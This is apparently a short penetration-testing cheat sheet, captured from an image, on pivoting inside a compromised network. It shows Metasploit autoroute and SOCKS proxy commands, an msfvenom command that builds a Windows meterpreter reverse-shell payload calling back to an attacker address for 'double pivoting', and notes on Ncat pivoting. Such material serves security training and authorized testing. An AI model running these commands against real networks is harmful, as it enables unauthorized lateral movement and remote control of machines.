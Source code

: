 
# Autoroute module
msf5 > use post/multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set SESSION 1
msf5 post(multi/manage/autoroute) > set CMD add
msf5 post(multi/manage/autoroute) > set SUBNET 10.42.42.0
msf5 post(multi/manage/autoroute) > set NETMASK /24
msf5 post(multi/manage/autoroute) > set CMD print
msf5 post(multi/manage/autoroute) > run

# On windows you can use post/windows/gather/arp_scanner to discover other machines
# On Linux you can try arp -a

# SOCKS proxy setup
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set SRVPORT 1081
msf5 auxiliary(server/socks4a) > run

# Now, equivalent to a dynamic SSH


# Double Pivoting
# Reverse shell from the pwned2 to the pwned1
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.42.42.1 LPORT=8088 -f exe --platform windows --arch x64 > reverse.exe

# Setup handler and exploit the found vulnerability

### Ncat pivoting


# Ncat =/= netcat
# Enhanced version, developped by nmap dev and often packaged with
# Ciphered connexion, IP restriction
# To pivot, needed on both attacker and pivot machine
